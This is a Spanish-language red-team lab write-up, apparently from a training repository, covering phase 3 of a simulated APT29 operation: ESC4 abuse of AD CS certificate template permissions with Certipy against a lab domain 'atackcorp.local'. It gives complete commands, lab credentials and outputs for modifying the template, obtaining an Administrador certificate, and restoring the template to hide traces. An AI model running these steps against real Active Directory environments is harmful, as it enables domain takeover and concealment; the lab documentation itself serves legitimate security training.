



# ESC4 Exploitation — Operación DARK GATE
## Fase 3 — Template Modification: fin.garcia → DA
**Operación:** DARK GATE | **Adversario:** APT29 | **Framework:** MITRE ATT&CK v14  
**Operador:** Adrián Camacho | **Fecha:** 17/05/2026

---

## FASE 3 — ESC4: Write Permissions on Certificate Template

**Táctica MITRE:** TA0004 — Privilege Escalation  
**Técnicas:** T1222 — File and Directory Permissions Modification + T1649  
**Herramienta:** Certipy v5.0.4  
**Usuario atacante:** `fin.garcia` (Domain User con GenericWrite + WriteDacl)  
**Objetivo:** Domain Admin via modificación de plantilla

### Contexto técnico

ESC4 ocurre cuando un usuario de bajo privilegio tiene permisos de escritura sobre una plantilla de certificado. Con `GenericWrite` y `WriteDacl`, `fin.garcia` puede modificar los atributos de `VulnerableUser` — por ejemplo, aplicar la configuración ESC1 (EnrolleeSuppliesSubject) — y luego solicitar un certificado como Administrador.

**Nota de configuración:** Certipy v5 requiere `WriteDacl` además de `GenericWrite` para modificar `nTSecurityDescriptor`. El permiso inicial solo incluía `GenericWrite`, lo que causó error `[-] User 'FIN.GARCIA' doesn't have permission`. Se añadió `WriteDacl + WriteProperty` desde Evil-WinRM post-ESC1.

---

### 3.1 — Guardar configuración original
> 📸 Captura: 

```bash
certipy-ad template \
  -u fin.garcia@atackcorp.local \
  -p 'Finance2024!' \
  -dc-ip 10.0.2.10 \
  -template VulnerableUser \
  -save-configuration VulnerableUser_backup.json
```

**Output:**
```
[*] Saving current configuration to 'VulnerableUser_backup.json'
[*] Wrote current configuration for 'VulnerableUser' to 'VulnerableUser_backup.json'
```

---

### 3.2 — Modificar plantilla con configuración ESC1

```bash
certipy-ad template \
  -u fin.garcia@atackcorp.local \
  -p 'Finance2024!' \
  -dc-ip 10.0.2.10 \
  -template VulnerableUser \
  -write-default-configuration \
  -force
```

**Output:**
```
[*] Updating certificate template 'VulnerableUser'
[*] Adding:
[*]     flags: 66104
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
[*] Replacing:
[*]     nTSecurityDescriptor: [...]
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*] Successfully updated 'VulnerableUser'
```

Plantilla modificada por `fin.garcia` — configuración ESC1 aplicada. ✅

---

### 3.3 — Solicitar certificado como Administrador
> 📸 Captura: 

```bash
certipy-ad req \
  -u fin.garcia@atackcorp.local \
  -p 'Finance2024!' \
  -ca AtackCorp-CA \
  -template VulnerableUser \
  -upn Administrador@atackcorp.local \
  -dc-ip 10.0.2.10 \
  -out administrador_esc4
```

**Output:**
```
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrador@atackcorp.local'
[*] Saving certificate and private key to 'administrador_esc4.pfx'
```

Certificado obtenido como Administrador usando credenciales de `fin.garcia`. ✅

---

### 3.4 — Restaurar plantilla (OPSEC)
> 📸 Captura: 

```bash
certipy-ad template \
  -u fin.garcia@atackcorp.local \
  -p 'Finance2024!' \
  -dc-ip 10.0.2.10 \
  -template VulnerableUser \
  -write-configuration VulnerableUser_backup.json \
  -force
```

**Output:**
```
[*] Successfully updated 'VulnerableUser'
```

Plantilla restaurada a su estado original. **Buena práctica OPSEC** — minimiza el tiempo de exposición de la modificación. ✅

---

### Kill chain ESC4

```
fin.garcia (GenericWrite + WriteDacl sobre VulnerableUser)
  ↓ certipy template -save-configuration → backup guardado
  ↓ certipy template -write-default-configuration → ESC1 aplicado
  ↓ certipy req -upn Administrador@atackcorp.local
  ↓ administrador_esc4.pfx obtenido (Request ID: 5)
  ↓ certipy template -write-configuration backup → plantilla restaurada
  → Domain Admin comprometido ✅
```

---

### Resumen Fase 3

```
ESC4 EXPLOITATION — Estado final
════════════════════════════════════════════

USUARIO ATACANTE: fin.garcia (GenericWrite + WriteDacl) ✅
PLANTILLA:        VulnerableUser modificada → ESC1 aplicado ✅
CERTIFICADO:      administrador_esc4.pfx (Request ID: 5) ✅
RESTAURACIÓN:     plantilla restaurada (OPSEC) ✅

TÉCNICAS MITRE:
  T1222  → File and Directory Permissions Modification
  T1649  → Steal or Forge Authentication Certificates
```

**Criterio de éxito Fase 3:** ✅

---

**Siguiente:** [exploitation_esc8.md](exploitation_esc8.md) — Fase 4